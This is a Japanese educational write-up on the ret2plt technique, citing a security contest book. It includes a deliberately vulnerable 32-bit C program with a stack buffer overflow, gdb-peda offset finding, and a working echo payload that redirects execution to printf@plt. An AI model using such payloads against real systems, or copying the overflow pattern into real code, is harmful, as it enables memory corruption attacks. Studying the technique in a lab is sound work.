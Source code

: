 # Return to PLT(ret2plt)

## 前提
ここで書かれた内容を悪用してはいけません. あくまで攻撃手法の知識共有として残します.

## 本題

EIP(RIP)を奪った後の攻撃方法として, `ret2plt`があげられる.
**PLTは`Procedure Linkage Table`の略で, PLTに書かれた短いコード片を関数として呼び出すと、動的リンクされたライブラリの関数を呼び出すことができるはずだ**

という考えである.
実験コード
```
#include <stdio.h>
#include <string.h>

char buffer[32];

int main(int argc, char *argv[]) {
    char local[32];
    printf("buffer: 0x%x\n", &buffer);
    fgets(local, 128, stdin);
    strcpy(buffer, local);
    return 0;
}
```
```
gcc -m32 -fno-stack-protector -o bof3 bof3.c
```
```
$ ./bof3
buffer: 0x804a060
1
$ python -c 'print("A"*0x100)' | ./bof3
buffer: 0x804a060
Segmentation fault (core dumped)
```

bof3のPLTセクション
```
$ objdump -d -M intel -j .plt --no bof3

bof3:     file format elf32-i386


Disassembly of section .plt:

08048340 <.plt>:
 8048340:	push   DWORD PTR ds:0x804a004
 8048346:	jmp    DWORD PTR ds:0x804a008
 804834c:	add    BYTE PTR [eax],al
	...

08048350 <printf@plt>:
 8048350:	jmp    DWORD PTR ds:0x804a00c
 8048356:	push   0x0
 804835b:	jmp    8048340 <.plt>

08048360 <fgets@plt>:
 8048360:	jmp    DWORD PTR ds:0x804a010
 8048366:	push   0x8
 804836b:	jmp    8048340 <.plt>

08048370 <strcpy@plt>:
 8048370:	jmp    DWORD PTR ds:0x804a014
 8048376:	push   0x10
 804837b:	jmp    8048340 <.plt>

08048380 <__gmon_start__@plt>:
 8048380:	jmp    DWORD PTR ds:0x804a018
 8048386:	push   0x18
 804838b:	jmp    8048340 <.plt>

08048390 <__libc_start_main@plt>:
 8048390:	jmp    DWORD PTR ds:0x804a01c
 8048396:	push   0x20
 804839b:	jmp    8048340 <.plt>
```
PLTに存在し、実行結果が簡単に確認できる`printf@plt`をret2pltを用いて呼び出す.

`ret`命令はスタックから1つデータを取り出し、そのアドレスにジャンプする.
`call`命令で関数を呼び出した時は, スタックにリターンアドレスを積んでからジャンプを行う.
従って, ret命令で関数を呼び出すときはリターンアドレスをスタックに積んだ状態で行えばcall命令で関数を呼び出した時と同じ状態となる.

ret2pltの考え方を使ってC言語における`printf(buffer);`を実行するときのスタック状態は以下の通りとなる.

| | |
| --- | --- |
| 下位アドレス(0x00000000) | |
| ↓ | |
|関数アドレス(=リターンアドレス) | 08048350 (<printf@plt>) |
|prinf呼び出し後のリターンアドレス(`saved_ebp`) | 0x42424242(ダミー) |
|引数1 | 0x0804a060 |
| ↓ | |
|上位アドレス(0xffffffff) | |

bufferのグローバルアドレスは以下のようにして求めることができる
```
$ readelf -s bof3 | grep buffer
    54: 0804a060    32 OBJECT  GLOBAL DEFAULT   25 buffer
```

```
$ gdb -q bof3
Reading symbols from bof3...(no debugging symbols found)...done.
gdb-peda$ b main
Breakpoint 1 at 0x80484a0
gdb-peda$ r
Starting program: /home/vagrant/pwn/book4b_pwn/step4/stack-bof/bof3/bof3
[----------------------------------registers-----------------------------------]
EAX: 0xf7fbadd8 --> 0xffffd34c --> 0xffffd4bb ("LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc"...)
EBX: 0x0
ECX: 0x8f402fcc
EDX: 0xffffd2d4 --> 0x0
ESI: 0xf7fb9000 --> 0x1d7d6c
EDI: 0x0
EBP: 0xffffd2a8 --> 0x0
ESP: 0xffffd2a8 --> 0x0
EIP: 0x80484a0 (<main+3>:	and    esp,0xfffffff0)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x8048498 <frame_dummy+40>:	jmp    0x8048410 <register_tm_clones>
   0x804849d <main>:	push   ebp
   0x804849e <main+1>:	mov    ebp,esp
=> 0x80484a0 <main+3>:	and    esp,0xfffffff0
   0x80484a3 <main+6>:	sub    esp,0x30
   0x80484a6 <main+9>:	mov    DWORD PTR [esp+0x4],0x804a060
   0x80484ae <main+17>:	mov    DWORD PTR [esp],0x8048590
   0x80484b5 <main+24>:	call   0x8048350 <printf@plt>
[------------------------------------stack-------------------------------------]
0000| 0xffffd2a8 --> 0x0
0004| 0xffffd2ac --> 0xf7df9e81 (<__libc_start_main+241>:	add    esp,0x10)
0008| 0xffffd2b0 --> 0x1
0012| 0xffffd2b4 --> 0xffffd344 --> 0xffffd484 ("/home/vagrant/pwn/book4b_pwn/step4/stack-bof/bof3/bof3")
0016| 0xffffd2b8 --> 0xffffd34c --> 0xffffd4bb ("LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc"...)
0020| 0xffffd2bc --> 0xffffd2d4 --> 0x0
0024| 0xffffd2c0 --> 0x1
0028| 0xffffd2c4 --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x080484a0 in main ()
gdb-peda$ pattern_create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
gdb-peda$ c
Continuing.
buffer: 0x804a060
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0x0
ECX: 0xffffd2f0 ("AA8AANAAjAA9AAO")
EDX: 0x804a0d0 ("AA8AANAAjAA9AAO")
ESI: 0xf7fb9000 --> 0x1d7d6c
EDI: 0x0
EBP: 0x41304141 ('AA0A')
ESP: 0xffffd2b0 ("bAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAO")
EIP: 0x41414641 ('AFAA')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41414641
[------------------------------------stack-------------------------------------]
0000| 0xffffd2b0 ("bAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAO")
0004| 0xffffd2b4 ("AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAO")
0008| 0xffffd2b8 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAO")
0012| 0xffffd2bc ("2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAO")
0016| 0xffffd2c0 ("AAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAO")
0020| 0xffffd2c4 ("A3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAO")
0024| 0xffffd2c8 ("IAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAO")
0028| 0xffffd2cc ("AA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAO")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414641 in ?? ()
gdb-peda$ patto AFAA
AFAA found at offset: 44
```
パターン文字列の44文字目以降に`AFAA`が現れることが分かりました.
アドレスの埋め込み先が分かったので, 次はどこに実行位置を移動するかを考える.
前述の通り, それは`08048350 (<printf@plt>)`であり, ダミー変数とbufferのアドレスも図の通りに埋め込むと
```
 python -c 'print("A"*44)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
$ echo -e 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x50\x83\x04\x08BBBB\x60\xa0\x04\x08' | ./bof3
buffer: 0x804a060
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAPBBBB`�
Segmentation fault (core dumped)
```
とret2pltが成功し, `printf(buffer)`が実行されていることが確認できた.

例えば, `puts`や`write`などのメモリから標準出力に書き込む関数があればメモリのデータをリークすることができ、`fgets`や`read`などの標準入力からメモリに読み込む関数があればメモリに書き込むことが可能である.

参考
セキュリティコンテストチャレンジブック